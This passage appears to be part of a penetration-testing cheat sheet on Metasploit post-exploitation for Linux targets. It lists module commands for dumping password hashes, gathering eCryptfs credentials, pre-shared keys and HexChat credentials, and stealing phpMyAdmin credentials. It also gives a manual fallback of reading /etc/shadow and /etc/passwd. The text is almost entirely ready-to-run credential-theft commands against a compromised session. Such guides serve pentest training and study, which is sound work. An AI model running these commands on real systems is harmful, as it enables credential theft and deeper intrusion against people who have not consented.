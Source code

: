 ```bash
use post/unix/gather/hashdump
set session 2
run
```

If **hashdump** doesn't work, manually dump the **shadow** and **passwd** files:

```bash
cat /etc/shadow
cat /etc/passwd
```

### Gathering eCryptfs Credentials

Use the **ecryptfs_creds** module to gather eCryptfs credentials:

```bash
use post/linux/gather/ecryptfs_creds
set session [shell]
run
```

We successfully obtain the user's **eCryptfs directories** from the target machine.

### Enumerating PSK

Use the **enum_psk** module to gather Pre-Shared Keys (PSKs):

```bash
use post/linux/gather/enum_psk
show options
set session 2
run
```

![grafik](https://github.com/user-attachments/assets/8faef1e5-f75e-4a9a-8340-45077e71627b)

### Enumerating HexChat

Use the **enum_hexchat** module to gather credentials from HexChat:

```bash
use post/linux/gather/enum_hexchat
show options
set session 2
run
```

![grafik](https://github.com/user-attachments/assets/f1d02bc8-ac80-46ae-8508-e89303d08c82)

### Stealing phpMyAdmin Credentials

Use the **phpmyadmin_credsteal** module to steal phpMyAdmin credentials:

```bash
use post/linux/gather/phpmyadmin_credsteal
set session 2
run
```
